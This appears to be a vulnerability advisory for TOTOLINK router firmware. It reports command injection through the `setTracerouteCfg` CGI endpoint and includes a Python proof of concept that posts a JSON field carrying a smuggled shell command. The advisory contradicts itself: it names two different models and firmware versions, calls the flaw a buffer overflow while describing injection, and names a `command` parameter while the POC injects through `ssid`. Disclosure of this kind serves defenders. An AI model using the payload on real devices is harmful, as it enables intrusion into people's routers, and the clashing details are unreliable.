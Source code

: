## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/241/ids/36.html

## Affected version

A3300R V17.0.0cu.557_B20221024

## Vulnerability details

In the A3700R V9.1.2u.5822_B20200513 firmware has a buffer overflow vulnerability in the `setTracerouteCfg ` function. The `v2` variable receives the `command` parameter from a POST request. However, since the user can control the input of `command`, the statement `doSystem` can cause a buffer overflow injection vulnerability.

![image-20240722023558424](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240722023558424.png)

## POC

```python
import requests
url = "http://127.0.0.1/cgi-bin/cstecgi.cgi"
cookie = {"Cookie":"SESSION_ID=2:1721039211:2"}
data = {"topicurl":"setTracerouteCfg","ssid":";ls -al ../ ;"}
response = requests.post(url, cookies=cookie, json=data)
print(response.text)
print(response)
```

![image-20240721213628055](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240721213628055.png)
